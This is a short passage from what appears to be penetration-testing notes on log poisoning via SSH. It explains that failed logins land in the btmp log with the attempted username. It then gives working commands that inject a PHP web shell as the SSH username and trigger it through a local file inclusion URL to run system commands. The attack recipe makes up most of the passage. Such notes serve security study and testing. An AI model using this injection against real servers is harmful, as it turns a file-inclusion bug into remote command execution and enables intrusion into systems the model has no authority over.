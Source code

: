 #### SSH

In [[SSH]], it was normal for logs to be stored in a file called *out.log*, but recently login errors are stored in the *btmp* file.

----
> Caution: As soon as you modify the permissions of the *btmp* file, you will not receive any more logs until the default permissions (660) are restored.
----

As failed logins are stored in this file, the name of the users who try to log in is also stored. Because of this we can try to inject a command instead of the user name:

```bash
# Normal login attempt
ssh loki@localhost

# Injection
ssh '<?php system($_GET["cmd"]); ?>'@localhost

http://localhost/index.php?filename=/var/log/btmp&cmd=whoami
```

These are examples of some services whose logs can be poisoned. It is convenient to check well if we can see the logs of the services we list for possible poisoning.